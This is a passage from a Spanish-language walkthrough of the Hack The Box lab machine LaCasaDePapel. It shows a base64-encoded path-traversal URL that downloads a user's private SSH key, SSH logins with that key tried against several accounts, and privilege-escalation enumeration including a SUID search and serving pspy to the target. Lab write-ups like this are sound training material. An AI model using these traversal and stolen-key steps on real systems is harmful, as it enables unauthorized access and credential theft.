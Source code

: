 y con la url `https://lacasadepapel.htb/file/Li4vLnNzaC9pZF9yc2E=` descargamos el fichero id_rsa.

```bash
mv /home/s4vitar/Descargas/firefox/id_rsa .
chmod 600 id_rsa
ssh -i id_rsa berlin@10.10.10.131
```

como no va intentamos con los otros usuarios.

```bash
ssh -i id_rsa berlin@10.10.10.131
ssh -i id_rsa dali@10.10.10.131
ssh -i id_rsa nairobi@10.10.10.131
ssh -i id_rsa oslo@10.10.10.131
ssh -i id_rsa professor@10.10.10.131
```

Hemos ganado accesso al systema como el usuario professor.
## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
whoami
ls
pwd
find / -name user.txt
cd /home/berlin/user.txt
```

Aqui vemos que el user.txt solo se puede ver desde la web.

```bash
uname -a
lsb_release
cat /etc/os-release
id
sudo -l
cd /
find \-perm -4000 2>/dev/null
```

aqui vemos binarios SUID. comprobamos con [gtfobins](https://gtfobins.github.io/) si se pueden burlar.

buscamos por bbsuid, abuild-sudo sudo pero no encontramos nada. Tenemos que mirar de CRON. Lo miramos con pspy.

```bash
git clone https://github.com/DominicBreuker/pspy
cd pspy
go build -ldflags "-s -w" main.go
upx main
mv main pspy
python3 -m http.server 80
```
